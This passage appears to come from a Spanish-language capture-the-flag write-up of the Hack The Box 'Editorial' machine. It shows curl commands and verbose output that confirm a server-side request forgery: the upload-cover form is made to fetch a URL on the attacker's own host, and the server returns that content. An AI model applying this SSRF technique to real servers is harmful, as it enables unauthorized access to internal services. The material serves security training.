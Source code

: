 Enviando la misma petición con `curl` a `/upload-cover`, el servidor nos devolverá una URI:

```bash
❯ curl -v -F "bookurl=http://10.10.14.203:8000" -F "bookfile=@file.txt" -v http://editorial.htb/upload-cover
* Host editorial.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.20
*   Trying 10.10.11.20:80...
* Connected to editorial.htb () port 80
> POST /upload-cover HTTP/1.1
> Host: editorial.htb
> User-Agent: curl/8.10.0
> Accept: */*
> Content-Length: 330
> Content-Type: multipart/form-data; boundary=------------------------9fdz2SQJQP1Y9RsG0RwphM
> 
* upload completely sent off: 330 bytes
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 15 Oct 2024 21:08:21 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 51
< Connection: keep-alive
< 
* Connection #0 to host editorial.htb left intact
static/uploads/93ea5a5f-b555-44ad-a4d5-762fc0720cdb
```

Viendo lo que contiene ese archivo, podremos notar que es nuestra página HTTP en cuestión:

```bash
❯ curl -v http://editorial.htb/static/uploads/b329a92e-be62-4e95-b13c-6
08490ca99f9
* Host editorial.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.20
*   Trying 10.10.11.20:80...
* Connected to editorial.htb () port 80
> GET /static/uploads/b329a92e-be62-4e95-b13c-608490ca99f9 HTTP/1.1
> Host: editorial.htb
> User-Agent: curl/8.10.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 15 Oct 2024 21:10:34 GMT
< Content-Type: application/octet-stream
< Content-Length: 376
< Connection: keep-alive
< Content-Disposition: inline; filename=b329a92e-be62-4e95-b13c-608490ca9
9f9
< Last-Modified: Tue, 15 Oct 2024 21:10:23 GMT
< Cache-Control: no-cache
< ETag: "1729026623.687862-376-4091811923"
< 
<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Directory listing for /</title>
</head>
<body>
... [snip]
```